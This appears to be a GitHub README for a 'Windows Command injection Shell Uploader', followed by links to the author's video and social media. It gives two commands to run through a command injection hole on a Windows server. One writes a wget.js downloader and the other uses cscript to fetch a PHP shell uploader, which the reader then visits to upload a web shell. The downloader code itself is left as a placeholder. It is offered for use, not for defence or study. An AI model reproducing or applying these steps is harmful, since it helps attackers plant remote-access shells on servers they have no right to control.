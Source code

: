 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

Youtube  : https://www.youtube.com/DigitalHackerOfficial<br/>
Facebook : https://www.facebook.com/DigitalHackerOfficial<br/>
Twitter  : https://twitter.com/SheryarNinjhack<br/>
Google+  : https://plus.google.com/+DigitalHacker<br/>
Email    : digitalhacker07@gmail.com
